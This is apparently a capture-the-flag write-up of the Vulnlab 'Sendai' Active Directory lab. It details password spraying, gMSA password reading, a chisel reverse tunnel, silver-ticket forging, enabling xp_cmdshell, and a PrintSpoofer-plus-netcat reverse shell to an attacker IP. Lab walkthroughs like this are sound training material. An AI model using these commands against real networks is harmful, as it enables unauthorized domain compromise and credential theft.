 ```yaml
---
title: Vulnlab Standalone - Sendai
date: 2024-03-21
categories: [vulnlab]
tags: [AD]
pin: false
---
```


## Vulnlab Standlone - Sendai
Sendai is a medium-difficulty standalone challenge that was initially created as a hiring challenge for senior penetration testers and red teamers by XCT. The machine offers two user paths and two root paths, so feel free to explore. I gained initial access using weak credentials, then managed to escalate privileges to a gMSA account, which ultimately gave me access to the MSSQL service account. This allowed me to craft a silver ticket for the Administrator database user. With this access, I was able to enable xp_cmdshell and abuse SeImpersonate privileges using PrintSpoofer to gain a SYSTEM shell.

![_install](/assets/img/VL-Sendai/sendai.png)

# Initial Access
Starting off, I added the following entries to the /etc/hosts file:
```
10.10.64.43 sendai.vl
10.10.64.43 dc.sendai.vl
```

Started of with an initial nmap scan which revealed the following information:
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-14 18:08:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```
Using smbclient I listed the shares and checked if there any shares which are open for unauthenticated use:
```
smbclient -L \\\\DC.sendai.vl\\
Password for [WORKGROUP\root]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        config          Disk
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        sendai          Disk      company share
        SYSVOL          Disk      Logon server share
        Users           Disk
```
Upon checking the Sendai share I found a txt file mentioning that a penetration test discovered numerous weak passwords and recommending changes as soon as possible. Also in the transfers folder, I found the UserProfiles for a few users within the domain:
```
 smb: \transfer\> ls
  .                                   D        0  Tue Jul 11 15:00:20 2023
  ..                                  D        0  Tue Jul 18 19:31:04 2023
  anthony.smith                       D        0  Tue Jul 11 14:59:50 2023
  clifford.davey                      D        0  Tue Jul 11 15:00:06 2023
  elliot.yates                        D        0  Tue Jul 11 14:59:26 2023
  lisa.williams                       D        0  Tue Jul 11 14:59:34 2023
  susan.harper                        D        0  Tue Jul 11 14:59:39 2023
  temp                                D        0  Tue Jul 11 15:00:16 2023
  thomas.powell                       D        0  Tue Jul 11 14:59:45 2023
```
I saved the usernames to a file called users.txt and tried common passwords such as Sendai01, Summer2024, etc. This method allowed me to recover the password for the user lisa.williams:
```
SMB         10.10.64.43     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:False)
SMB         10.10.64.43     445    DC               [-] sendai.vl\lisa.williams:[REDACTED] STATUS_PASSWORD_MUST_CHANGE
```
# Getting access to mgtsvc$
I reset the password for the user with the smbpasswd tool:
```
smbpasswd -U lisa.williams -r sendai.vl
```
Now that we have valid credentials I ran the remote python bloodhound ingestor to enumerate the environment:
```
bloodhound.py --zip -c All -d sendai.vl -u lisa.williams -p P@ssw0rd -dc DC.sendai.vl -ns 10.10.98.198
```
Inspecting the Bloodhound output and further enumerating the domain revealed the following path:
- Lisa.willams has GenericAll on the ADMSVC group
- The ADMSVC group can read the gMSA password of the mgtsvc$ user'

We can abuse this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
pth-net rpc group addmem "admsvc" lisa.williams -U sendai.vl/lisa.williams -S 10.10.64.43 
```
We can exploit this by adding the lisa.williams user to the ADMSVC group using pth-net:
```
gMSADumper.py -u 'lisa.williams' -p 'P@ssw0rd' -d 'sendai.vl' 
```
Using evil-winrm we can get a shell on the target:
```
evil-winrm -i 10.10.98.198 -u 'mgtsvc$' -H [REDACTED]
```
# Crafting silver tickets
Now that we have initial access on the DC I enumerated the system a bit. I found that in the C:\config folder there is a file called .sqlconfig which contains the password for the sqlsvc user. Since this user is the service account for the MSSQL service we can forge a silver ticket for a privileged user to escalate privileges. To do this I first created a proxy using chisel which allowes me to interact with the MSSQL service which is running locally. 
On the target machine:
```
cmd /c C:\temp\chisel.exe client [ATTACKER]:8001 R:1080:socks
```
On the attacker machine:
```
chisel server -p 8001 --reverse
```
Next I created a silver ticket using the ticketer.py tool from impacket for the Administrator and imported the kerberos ticket:
```
ticketer.py -spn MSSQL/dc.sendai.vl -domain-sid S-1-5-21-3085872742-570972823-736764132 -nthash [REDACTED] -dc-ip dc.sendai.vl Administrator -domain sendai.vl
export KRB5CCNAME=Administrator.ccache
```
Using this ticket we connect over the proxy to the MSSQL service as Administrator:
```
proxychains -q mssqlclient.py dc.sendai.vl -k
```
Since we have administrative rights we can enable xp_cmdshell so we can execute command on the system:
```
sp_configure 'show advanced options', '1'
sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

# Escalating to SYSTEM
Since we are the sqlsvc$ account we usually have SeImpersonate privileges which allows us to elevate to SYSTEM. We can confirm this by using:
```
whoami /privileged
```
This confirmed that we indeed have SeImpersonate privileges. Using Printspoofer and netcat I was able to get a reverse shell:
```
cmd /c C:\temp\PrintSpoofer.exe -c "c:\Temp\nc.exe 10.8.0.49 1337 -e cmd"
```
